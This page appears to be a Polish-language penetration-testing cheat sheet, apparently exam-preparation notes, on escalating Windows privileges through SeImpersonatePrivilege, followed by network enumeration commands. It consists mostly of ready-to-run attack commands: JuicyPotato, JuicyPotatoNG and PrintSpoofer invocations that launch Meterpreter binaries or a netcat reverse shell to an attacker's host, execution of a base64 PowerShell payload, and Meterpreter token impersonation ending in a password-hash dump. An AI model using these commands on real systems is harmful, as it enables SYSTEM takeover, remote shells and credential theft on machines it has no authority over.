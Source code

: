 

<p><em>Abuse (nadużycie) is possible if SeImpersonatePrivilege or SeAssignPrimaryPrivilege is enabled</em> (sa tez inne: <em>SeBackupPrivilege, SeAssignPrimaryToken, SeLoadDriver i SeDebug.</em> <a href="https://github.com/gtworek/Priv2Admin">Tworek</a> o uprawnieniach)<br>#Print Nightmare : whoami /priv #&gt; SetImpersonatePrivilege Enabled?<br>#JuicyPotato.exe -p C:\inetpub\wwwroot\nc.bat -l 443 -t * <br>#.\JuicyPotato.exe -p C:\users\chris\met.exe -l 1337 -t * -c „{4991d34b-80a1-4291-83b6-3328366b9097}” (czesto domyslny CLSID narzedzia nie dziala i trzeba probowac z <a href="https://ohpe.it/juicy-potato/CLSID/">tej</a> listy), warto tez uzyć GetCLSID.ps1 aby sprwdzi jakie sa na maszynie  ;  jak w/w .ps1 wygeneruje ci liste to tym narzedziem mozesz sprawdzic: test_clsid.bat<br>#.\PsExec64.exe -i -u „nt authority\local service” cmd.exe -accepteula<br><strong>###JuicyPotatoNg – działa kiedy inne zawodzą###</strong><br>#.<mark style="background-color:#ffa9b8" class="has-inline-color">\JuicyPotatoNG.exe -t * -p .\met.exe  </mark><br>#.\JuicyPotatoNG.exe -t * -p “C:Windows\system32.cmd.exe” -a “/c whoami &gt; C:\juicy.txt”<br><strong>###PrintSpoofer (Windows 10 and Server 2016/2019)###</strong><br><em>Leverages the Print Spooler service to get a SYSTEM token, then run a custom command</em>. Jeżeli jest podatnośc to poniższe zadziała:<br>#printspoofer32.exe -i -c cmd (spawn a SYSTEM command prompt ; PS. mi działała wersje 32)<br>#printspoofer32.exe -c „C:\temp\nc.exe [LHOST] [LPORT] -e cmd.exe” (get a SYSTEM reverse shell)<br>#whoami (czy jesteś nt authority \ system i możesz dodać usera i do grupy admin)<br><strong>#– <a href="https://github.com/itm4n/PrintSpoofer">PrintSpoofer</a> by oscp23</strong><br>#w prawdziwych pentestach: usługi IIS będą działać jako LocalService, LocalSystem, NetworkService lub ApplicationPoolIdentity, z których wszystkie mają przypisany SeImpersonatePrivilege<br>#whoami /priv<br>#przenosimy PrintSpoofer64.exe<br>#&gt; .\PrintSpoofer64.exe -i -c powershell.exe (i bedziemy: nt authority\system)<br>#.\PrintSpoofer64.exe -i -c „powershell -e PAYLOAD (payload zrobilem ze strony reshells Powershell base64 – super midzialalo na Medtech, gdie user mial whoami /priv: SeImpersonatePrivilege)<br><strong>###Tools##</strong>#<br>#Jaws sprawdź czy coś znalazł<br><strong>###MSF###</strong><br>#sprawdzanie czy atak zadziała: w meterpreter getprivs lub chyba whoami /priv też zadziała: czy jest SeImpersonatePrivilege<br>#&gt;meterpreter: load incognito (w sumie to wszystko) #&gt; teraz powinno zadziałać: list_tokens -u &gt; pokaże się lista nazw tokenów delegation lub impersonation #&gt; impersonate_token „$Nazwa_z_w/w_listy” #&gt; getuid (sprawdzenie) #&gt; ps #&gt; migrate 3544 #&gt; hashdump #&gt; dostęp do Users\Administrator<br>#Print Nightmare : whoami /priv #&gt; SetImpersonatePrivilege Enabled?<br>#JuicyPotato.exe -p C:\inetpub\wwwroot\nc.bat -l 443 -t * -c<br><strong>###PrintSpoofer (Windows 10 and Server 2016/2019)###</strong><br><em>Leverages the Print Spooler service to get a SYSTEM token, then run a custom command</em>. Jeżeli jest podatnośc to poniższe zadziała:<br>#printspoofer32.exe -i -c cmd (spawn a SYSTEM command prompt ; PS. mi działała wersje 32)<br>#printspoofer32.exe -c „C:\temp\nc.exe [LHOST] [LPORT] -e cmd.exe” (get a SYSTEM reverse shell)<br>#whoami (czy jesteś nt authority \ system i możesz dodać usera i do grupy admin)</p>



<h4 class="wp-block-heading"><span class="ez-toc-section" id="Siec" ez-toc-data-id="#Siec"></span>Sieć:<span class="ez-toc-section-end"></span></h4>



<p>#ipconfig /all (pokaże też domene i DNS serwer – często Kontroler D.)<br>#netstat -ano (Estabished to aktulnie podlaczeni userzy)<br>#route print<br>#arp -A  (lub -a)<br>#ipconfig /all<br>#net share ; net use ; net start<br>#nslookup IP (lub zamiast IP dać DC01.corp.com, czasami z .exe)<br>#!! jak znajdziesz cos na lokalnym porcie i zrobsz tunelowanie to wyprobuj: proxychains curl http://10.10.1.1:40000   ALE TEZ    proxychains nc 10.10.1.1 40000 – bo tak czasami moznauruchomic uslugi.<br><strong>###PS###</strong><br>#Get-NetIPConfiguration<br>#Get-DnsClientServerAddress<br>#Get-NetRoute<br>#Get-NetNeighbor<br><strong>###MySQL###</strong><br>#C:\xampp\mysql\bin&gt;mysql.exe -uroot -p<br><strong>###Plink – otwieranie lokalnych portów np. 445 by TCM###</strong><br>#pliki .exe do pobrania z <a href="https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html">tej</a> strony<br>#ps. patrz na TUNELOWANIE w OSCP</p>
